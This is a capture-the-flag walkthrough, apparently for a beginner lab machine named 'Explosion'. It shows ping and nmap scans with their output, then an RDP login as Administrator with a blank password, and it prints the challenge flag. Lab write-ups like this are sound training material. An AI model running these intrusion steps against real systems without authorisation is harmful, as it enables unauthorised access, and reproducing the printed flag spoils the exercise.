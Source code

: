 ![Explosion.png](/assets/Tier-0//Explosion/Explosion.jpg)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 1 10.129.88.32
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.88.32
```

**Output**
```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
```

3. Search versions and scripts to scanning ports
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| nmap -sCV -p135,139,445,3389,5985,47001 10.129.88.32 
```

**Output**
```bash
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-18T15:18:22+00:00
|_ssl-date: 2022-11-18T15:18:29+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-11-17T15:15:14
|_Not valid after:  2023-05-19T15:15:14
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


4. In port **3389** rdp service is runningm you can connect how `Administrator` without **password**

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| xfreerdp /u:Administrator /v:10.129.88.32
```

**Output**

![rdp.PNG](/assets/Tier-0/Explosion/rdp.PNG)

5. Open **flag file**

```txt
Flag: 951fa96d7830c451b536be5a6be008a0
```